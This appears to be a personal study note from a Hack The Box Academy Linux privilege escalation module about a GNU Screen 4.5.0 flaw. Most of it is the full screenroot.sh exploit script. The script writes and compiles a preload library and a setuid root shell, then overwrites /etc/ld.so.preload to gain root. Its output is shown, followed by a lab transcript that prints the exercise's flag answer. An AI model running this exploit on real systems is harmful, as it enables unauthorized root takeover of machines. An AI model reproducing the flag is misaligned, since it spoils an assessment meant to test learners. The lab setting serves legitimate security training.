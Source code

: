 ```yaml
---
description: >-
  Many services may be found, which have flaws that can be leveraged to escalate
  privileges.
---
```


# Vulnerable Services

## Screen Example

The version 4.5.0 suffers from privilege escalation vulnerability due to lack of permissions check when opening a log file.

**Screen Version Identification**

```shell-session
screen -v

Screen version 4.05.00 (GNU) 10-Dec-16
```

This allows an attacker to truncate any file or create a file owned by root in any directory and ultimately gain full root access.

**Privilege Escalation - Screen\_Exploit.sh**

```shell-session
./screen_exploit.sh 

~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-mrb3n.

# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(mrb3n)
```

The below script can be used to perform this privilege escalation attack:

**Screen\_Exploit\_POC.sh**

Code: bash

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

## Assessment

Connect to the target system and escalate privileges using the Screen exploit. Submit the contents of the flag.txt file in the /root/screen\_exploit directory.

Academy\_LLPE!

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

```
htb-student@NIX02:~$ vim exploit.sh
htb-student@NIX02:~$ chomod +x exploit.sh 
htb-student@NIX02:~$ chmod +x exploit.sh 
htb-student@NIX02:~$ ./exploit.sh 
./exploit.sh: line 1: creenroot.sh: command not found
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-htb-student.

# id
uid=0(root) gid=0(root) groups=0(root),1008(htb-student)
# bash          
root@NIX02:/etc# cat /root/screen_exploit/flag.txt 
91927dad55ffd22825660da88f2f92e0
root@NIX02:/etc# 

```

```
91927dad55ffd22825660da88f2f92e0
```
